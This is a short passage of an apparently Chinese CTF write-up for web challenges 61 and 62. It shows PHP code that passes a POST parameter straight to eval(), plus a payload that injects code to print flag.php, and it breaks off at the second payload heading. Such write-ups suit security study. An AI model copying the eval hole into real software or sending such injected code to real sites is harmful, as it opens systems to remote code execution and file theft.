
```
c=show_source('flag.php');

```

## web61

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
c=show_source('flag.php');

```

## web62

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


